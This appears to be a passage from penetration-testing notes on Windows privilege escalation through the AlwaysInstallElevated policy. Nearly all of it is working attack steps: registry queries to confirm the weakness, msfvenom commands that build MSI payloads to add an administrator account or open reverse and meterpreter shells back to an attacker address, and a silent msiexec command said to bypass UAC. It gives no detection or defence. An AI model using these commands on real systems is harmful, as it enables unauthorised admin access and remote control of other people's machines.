

manually
1. To know if the
target system is vulnerable we have to check these registry keys:
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Both keys are 1, this mean that the target host is vulnerable!
2. Now we can generate different types of payloads with msfvenom:
◇ payload to add an user
root@kali:/# msfvenom -p windows/adduser USER=admin PASS=password -f msi -o filename.msi
◇ create a reverse shell for x63 Windows
root@kali:/# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.147.139 LPORT=53 -f msi -o reverse.msi #lhost is the attacker
◇ create a reverse shell for meterpreter
root@kali:/# msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[LHOST IP] LPORT=443 -f msi -o filename.msi
3. Copy the .msi file on the target Windows machine
4. Set up a listener on the kali machine(if we have used a reverse shell)
5. execute the msi installer specified before on the target system
C:\> msiexec /quiet /qn /i C:\Users\user\Desktop\reverse.msi
/quiet → flag that will bypass UAC
/qn → flag that specifies to not use a GUI
/i → flag that is to perform a regular installation of the referenced package
